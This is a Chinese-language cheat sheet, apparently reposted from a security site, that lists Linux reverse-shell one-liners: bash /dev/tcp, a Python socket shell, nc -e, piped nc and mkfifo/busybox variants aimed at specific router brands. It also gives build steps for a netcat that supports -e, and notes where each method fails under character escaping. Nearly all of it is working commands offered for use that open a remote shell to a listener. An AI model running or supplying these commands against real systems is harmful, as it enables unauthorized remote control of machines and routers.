



# LINUX 反弹 shell

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/1.html](http://book.iwonder.run/安全技术/Linux 后门/1.html)

关于反弹原理，和每一步的数据流向在网上都有文章，就不复制了。这里只是用来总结下常规反弹 shell 的用法，顺便说下优点缺点。

### 姿势一

```
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1 
```



优点：在大多数 Liunx 系统上都可以使用，缺点：在路由器系统中不存在 bash，存在符号>、& 在反序列化中或者对符号转义的情况下就没有办法反弹了。

### 姿势二

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('127.0.0.1',6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" 
```



优点：在安装了 python 上的 linux 都可以使用，原理还是将标准输入、标准输出、标准错误输出重定向到远程。使用 bash 交互模式启动。缺点：在路由器系统中不存在 bash 或者阉割了 python 库，存在符号>、& 、'、"在反序列化中或者对符号转义的情况下就没有办法反弹了。单双引号也会导致闭合问题。

### 姿势三

```
nc -e /bin/bash 127.0.0.1 6666 
```



### 姿势四

一般 Netcat 有两个版本，一个版本是不提供反向连接的版本，一个是全功能版本。这两者的区别就是是否带-e 参数，只有带-e 参数的版本才支持反向连接。ubuntu 18.04 安装的是不提供反向链接的版本。

```
wget https://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gztar -zxvf netcat-0.7.1.tar.gz -C /usr/localcd /usr/localmv netcat-0.7.1 netcatcd /usr/local/netcat./configuremake && make install 
```


优点：直接反弹，没有多余的符号。缺点：系统 apt 默认安装的都是不提供反向链接的版本，需要自己上传编译后的二进制版本。

#### 解决方法 1:

```
nc 127.0.0.1 6666|/bin/bash|nc 127.0.0.1 7777 
```


利用 6666 端口传入内容交给 bash 执行，再将内容从 7777 送出去，管道符的用法。可以在阉割功能的 nc 上使用。

#### 解决方法 2(针对某些 mips 架构的路由器&busybox 终端的系统)：

```
//锐捷
mkfifo /tmp/backpipe1 | /bin/sh 0</tmp/backpipe1 | nc 127.0.0.1 6666 1>/tmp/backpipe1

//飞鱼星反弹 shell
mkfifo /tmp/backpipe1 | /bin/sh 0</tmp/backpipe1 | /bin/busybox nc 127.0.0.1 6666 1>/tmp/backpipe1 
```


